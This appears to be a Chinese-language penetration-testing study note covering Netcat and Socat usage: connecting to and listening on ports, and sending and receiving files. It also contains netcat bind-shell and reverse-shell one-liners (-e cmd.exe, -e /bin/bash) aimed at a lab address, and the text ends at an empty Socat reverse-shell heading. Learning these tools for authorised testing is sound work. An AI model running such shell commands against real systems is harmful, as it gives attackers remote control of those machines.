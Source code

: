 # 3-Practical Tools

## Netcat

俗称”瑞士军刀“，使用TCP或UDP协议，通过网络连接读写数据的实用程序。

### 常用例子（格式一般为 nc 选项 IP 端口）：

连接目标的110端口：  `nc -nv 10.211.55.5 110` 

监听本地4444端口： `nc -nlvp 4444` 

### 传输文件:

接收文件： `nc -nlvp 4444 > incomfile` 

发送文件： `nc -nv 10.211.55.5 4444 < /home/kali/file1` 

### 绑定shell

```
nc -nvlp 4444 -e cmd.exe
```

### 反弹shell

```
nc -nv 10.211.55.5 4444 -e /bin/bash
```

## Socat

Socat 是一个命令行实用程序，它建立两个双向字节流并在它们之间传输数据。对于渗透测试，它类似于Netcat，但有额外的有用特性。

### Netcat vs Socat

```
nc <remote server's ip address> 80
socat - TCP4:<remote server's ip address>:80
```

### 常用例子

连接目标的443端口： `socat - TCP4:10.211.55.5:443` 

监听本地的443端口：  `sudo socat TCP4-LISTEN:443 STDOUT` 

### 传输文件

发送文件： `sudo socat TCP4-LISTEN:443,fork file:file1.txt` 

接收文件： `socat TCP4:10.211.55.5:443 file:received.txt,create` 

### 反弹shell

